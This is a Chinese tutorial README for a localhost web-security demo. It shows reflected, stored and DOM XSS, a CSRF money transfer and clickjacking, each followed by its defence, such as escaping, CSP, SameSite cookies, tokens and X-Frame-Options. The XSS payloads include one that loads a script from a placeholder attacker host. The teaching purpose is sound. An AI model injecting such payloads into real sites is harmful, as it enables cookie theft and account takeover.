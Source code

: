 # web安全
        请结合这个[ppt](https://ppt.baomitu.com/p/a3926cbc#/)查看本demo案例
## XSS 攻击

### 反射型XSS攻击
1. 进入 xss 目录，运行 node app.js (启动本地服务器)
2. 在浏览器中访问 `localhost:3000/xss-search.html`
3. 正常输入 j ，会返回含有 j 的所有结果
4. 现在开始攻击：输入  `<script>alert(1)</script>`，点击搜索，此时浏览器执行了脚本，并弹出弹窗1，完成了攻击！！！
### 反射型XSS攻击防御

*  编辑器打开xss目录中的 app.js
* 找到`/api/search`接口
* 修改搜索无结果时的返回内容，改为如下代码：

        res.json({ code: 1, data:[], keyWord:encodeHtml(req.query.keyWord) })
        
* 重启服务：node app.js
* 访问浏览器 `localhost:3000/xss-search.html`，并输入`<script>alert(1)</script>`，点击搜索，此时不会弹窗。因为我们进行了过滤转义

### 存储型XSS攻击

1. 进入 xss 目录，运行 node app.js (启动本地服务器)
2. 在浏览器中访问 `localhost:3000/xss-comment.html`
3. 正常输入评论内容`开心ing` ，评论列表会多一条`开心ing`的内容。
4. 现在开始攻击：输入`<script>alert(1)</script>`，点击发表，此时浏览器执行了脚本，并弹出弹窗1，完成了攻击！！！这时，这条评论内容存储到了服务器，所有访问评论区的用户都会遭受到攻击。。。。此外攻击者也可以通过刷接口的方式向服务器注入恶意脚本。

### 存储型XSS防御
1. 编辑器打开xss目录中的 app.js
2. 找到`/api/addComment`接口
3. 对传入的参数`comment`进行过滤转义: `commentData.push(encodeHtml(req.body.comment))`
4. 重启服务：node app.js
5. 访问浏览器 `localhost:3000/xss-comment.html`，并输入`<script>alert(1)</script>`，点击发表，此时不会弹窗。因为我们进行了过滤转义。
6. 当然我们也可以在前端做过滤，但是对入数据库的数据做过滤不更安全嘛～～～


### DOM型XSS攻击
 1. 进入 xss 目录，运行 node app.js (启动本地服务器)
 2. 在浏览器中访问 `localhost:3000/xss-dom.html?name=hgf`
 3. 此时页面显示 `hgf邀请你瓜分100亿红包啦`
 4. 现在把url改为 `localhost:3000/xss-dom.html?name=<script>alert(1)</script>`，点击回车，这时页面弹出1，完成了攻击！！！如果我把这个url发给别人，别人一旦点击就会遭到攻击。（*这里只是alert，攻击者可不会这么简单，他会获取你的cookie 得到用户名密码等等*）
 
 
### DOM型XSS防御
1. 编辑器打开xss/src/xss-dom.html文件
2. 将url的name参数进行过滤转义：将 `getUrlParam('name')` 改为 `encodeHtml(getUrlParam('name'))`
3. 打开浏览器继续访问 `localhost:3000/xss-dom.html?name=<script>alert(1)</script>` ，回车，这时页面不会弹窗。


**xss攻击还有一种情况，比如在url后面加一个`name=javascript:document.write('<script/src=//xxxxxxx?>')`,此时前端没有做过滤，直接将脚本插入到页面，脚本就会执行：在页面写入一个script并且引入攻击者的攻击文件。这时除了对脚本进行过滤，还有一种防御方法：**

1. 编辑器打开 xss/app1.js
2. 可以看到我们读到了 `xss-search.html` 并添加了一个 `'Content-Security-Policy': 'script-src \'self\'' `的请求头，这个请求头的意思是，xss-search.html的script标签只允许加载自己域名下的文件。这样就阻止了第三方的攻击脚本的引入。 ( 注：此方法防御不了攻击者用接口的方式获取本站的cookie)


 
## CSRF攻击

1. 进入 csrf 目录，运行 node app.js (端口号为3001)
2. 再打开一个命令行窗口执行 node app1.js （端口号为3002）
3. 浏览器中访问 `http://localhost:3001/index.html`，没有登录的情况下自动跳转登录页
4. 使用 222/222 登录，可以看到 222 的账号有 10W 的余额
5. 打开一个无痕浏览器窗口，访问 `http://localhost:3001/index.html`，使用111/111登录，可以看到111账号有1000余额。
5. 现在准备攻击222账户： 222 已经登录了，cookie已经有了，这个时候，有人给你发了个钓鱼网站的链接: `http://localhost:3002/fish.html`，你点过去了，你的钱就被偷偷偷走了~~~
6. 222 此时访问`http://localhost:3001/index.html`发现账户少了100元。钱到了哪里了呢？
7. 无痕浏览器打开`http://localhost:3001/index.html`,发现111账户多了100元。


## CSRF防御
### 1. 使用 `sameSite`属性

1. 编辑器打开csrf/app.js
2. 找到接口 `/api/login`，设置cookie
时，设置sameSite为'Strict'，这个字段代表，不允许第三方接口访问时携带cookie，只允许自己域名下的接口携带cookie
。
3.这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

### 2. 转账接口使用验证码验证
1. 利用svg-captcha(已安装依赖)
2. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer1`,具体`api/transfer1`怎么实现的，请到`csrf/app.js`查看
3. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。


### 3. 判断来源(referer) 【referer并不安全，应该referer是可以被修改的】

1. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer2`,具体`api/transfer2`怎么实现的，请到`csrf/app.js`查看
2. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

### 4. 使用token 
1. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer3`,具体`api/
transfer3`怎么实现的，请到`csrf/app.js`查看
2. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

## 点击劫持
1. 进入`click-hijack` 目录，运行node app.js
2. 浏览器打开 `http://localhost:3003/index.html`,
3. 看到有很多投票按钮，可以任意投票
4. 现在再开一个命令行工具 运行 node app2.js
5. 浏览器打开 `http://localhost:3004/attack.html`，这时界面看到一个按钮，当你点击这个按钮的时候，实际上是给hgf投票了。

### 防御
1. 编辑器打开 `click-hijack/app.js`
2. 添加 `res.setHeader('X-FRAME-OPTIONS','DENY')`
3. 此时再浏览器打开 `http://localhost:3004/attack.html`，发现index.html并没有加载出来。

***（X-Frame-Options设置为DENY，表示当前页面不允许在frame中加载展示，以防止被劫持）***



